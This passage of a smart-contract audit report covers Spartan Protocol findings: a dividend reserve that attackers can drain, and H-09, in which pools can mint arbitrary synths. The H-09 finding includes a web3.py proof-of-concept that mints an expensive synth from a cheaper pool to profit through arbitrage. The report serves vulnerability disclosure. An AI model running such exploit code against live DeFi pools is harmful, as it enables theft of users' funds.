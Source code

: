 The reserve can be emptied by the attacker.

Counting only the last 20 trades as a baseline for the dividends does not work. It should probably average over a timespan but even that can be gamed if it is too short. I think a better idea is to compute the dividends based on **volume** traded over a timespan instead of looking at individual trades.

**[verifyfirst (Spartan) acknowledged](https://github.com/code-423n4/2021-07-spartan-findings/issues/182#issuecomment-885412630):**

> Only very deep pools will be curated for dividends. Variables can be changed reactively to alter the dividends. Whilst we were aware of this and feel the attack is limited its sparked some discussion for some new ideas to solve this.

**[ghoul-sol (judge) commented](https://github.com/code-423n4/2021-07-spartan-findings/issues/182#issuecomment-894864375):**

> Keeping high risk as the report is valid

[](#h-09-arbitrary-synth-mintburn-from-pool)[\[H-09\] arbitrary synth mint/burn from pool](https://github.com/code-423n4/2021-07-spartan-findings/issues/20)
------------------------------------------------------------------------------------------------------------------------------------------------------------

_Submitted by jonah1005_

`Pool` can mint arbitrary `Synth` provided as long as it’s a valid synth. When there are multiple curated pools and synth (which the protocol is designed for), hackers can mint expensive synthetics from a cheaper AMM pool. The hacker can burn the minted synth at the expensive pool and get profit. The arbitrage profit can be amplified with flash loan services and break all the pegs.

[Pool’s mintSynth logic](https://github.com/code-423n4/2021-07-spartan/blob/main/contracts/Pool.sol#L229-L242), [Synth’s mintSynth logic](https://github.com/code-423n4/2021-07-spartan/blob/e2555aab44d9760fdd640df9095b7235b70f035e/contracts/Synth.sol#L165-L171), and [Synth’s authorization logic](https://github.com/code-423n4/2021-07-spartan/blob/e2555aab44d9760fdd640df9095b7235b70f035e/contracts/Pool.sol#L229-L242).

The price of the synthetics to be mint is calculated in `Pool` based on the AMM price of the current Pool

Here’s a web3.py script of minting arbitrary `Synth` in a pool. For simplicity, two pools are set with the assumption that link is 10x expensive than dai.

    sparta_amount = 100 * 10**18
    initail_link_synth = link_synth.functions.balanceOf(user).call()
    base.functions.transfer(link_pool.address, sparta_amount).transact({'from': user})
    link_pool.functions.mintSynth(link_synth.address, user).transact({'from': user})
    after_link_synth = link_synth.functions.balanceOf(user).call()
    
    print('get link synth amount from link pool:', after_link_synth - initail_link_synth)
    
    sparta_amount = 100 * 10**18
    initail_link_synth = link_synth.functions.balanceOf(user).call()
    base.functions.transfer(dai_pool.address, sparta_amount).transact({'from': user})
    dai_pool.functions.mintSynth(link_synth.address, user).transact({'from': user})
    after_link_synth = link_synth.functions.balanceOf(user).call()
    
    print('get link synth amount from dai pool:', after_link_synth - initail_link_synth)
